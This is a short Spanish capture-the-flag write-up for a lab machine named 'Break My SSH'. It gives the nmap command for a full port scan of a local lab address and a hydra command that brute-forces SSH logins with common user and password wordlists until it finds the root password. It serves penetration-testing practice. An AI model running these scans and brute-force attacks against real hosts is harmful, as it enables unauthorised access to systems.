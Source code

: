 # MÁQUINA BREAK MY SSH

Lo primeroq que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/Break%20My%20SSH/foto.jpg)

Vemos que unicamente esta abierto el puerto 22, si buscamos vulnerabilidades con searchsploit y las probabamos vemos que no ocurre nada, por lo que la única solución que nos queda es hacer un ataque de fuerza bruta completamente a ciegas:

```shell
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![HYDRA](https://github.com/Isma-yo/photos/blob/main/Break%20My%20SSH/foto2.jpg)

Tras un rato probando podemos ver que si ponemos como usuario a root encuentra su contraseña:

![ROOT](https://github.com/Isma-yo/photos/blob/main/Break%20My%20SSH/foto3.jpg)






